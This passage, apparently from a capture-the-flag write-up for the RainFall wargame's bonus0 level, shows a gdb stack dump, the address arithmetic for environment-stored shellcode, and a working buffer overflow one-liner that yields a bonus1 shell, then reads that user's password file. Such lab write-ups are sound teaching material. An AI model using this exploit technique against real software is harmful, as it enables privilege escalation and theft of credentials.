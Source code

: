 ```
0xbffffd09:      ":*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00"...
0xbffffdd1:      ";36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:"
0xbffffe42:      "COLUMNS=238"
0xbffffe4e:      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
0xbffffe9b:      "MAIL=/var/mail/bonus0"
0xbffffeb1:      "_=/usr/bin/gdb"
0xbffffec0:      "LC_IDENTIFICATION=fr_FR.UTF-8"
0xbffffede:      "PWD=/home/user/bonus0"
0xbffffef4:      "LANG=en_US.UTF-8"
0xbfffff05:      "LC_MEASUREMENT=fr_FR.UTF-8"
0xbfffff20:      "LINES=54"
0xbfffff29:      "HOME=/home/user/bonus0"
0xbfffff40:      "SHLVL=1"
0xbfffff48:      "LOGNAME=bonus0"
0xbfffff57:      "SSH_CONNECTION=192.168.56.1 36246 192.168.56.103 4242"
```

Our environment variable address is `0xbffff849`, but we have to increment it by 10 to get the start of the string, after `SHELLCODE=`: `0xbffff853`.

Now we just have to fill the first string with 20 `A`, followed by the second string which contains 9 `A` followed by the address of our environment variable.

```bash
bonus0@RainFall:~$ (python -c "print('A' * 20)"; python -c "print('A' * 9 + '\x53\xf8\xff\xbf' + 'A' * 7)"; cat)  | ./bonus0
 - 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAS���AAAAAAA��� AAAAAAAAAS���AAAAAAA���
whoami
bonus1
cat /home/user/bonus1/.pass            
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## Resources

- [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator)
- [Store shellcode in environment variable](https://medium.com/@danielorihuelarodriguez/store-shellcode-in-environment-variable-1058062b8b5e)
